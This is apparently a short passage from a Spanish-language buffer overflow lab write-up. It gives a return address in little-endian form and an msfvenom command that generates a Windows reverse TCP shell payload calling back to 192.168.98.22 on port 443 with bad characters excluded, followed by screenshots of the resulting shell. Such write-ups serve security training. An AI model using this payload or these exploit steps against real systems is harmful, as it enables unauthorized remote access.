 ```php
0x625011AF
```

 ```php
 \xAF\x11\x50\x62
```

## Generando payload

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x16\x2f\xf4\xfd" -f c
```

![20240228173251.png](20240228173251.png)

## Shell

![20240228173958.png](20240228173958.png)

# OverFlow6
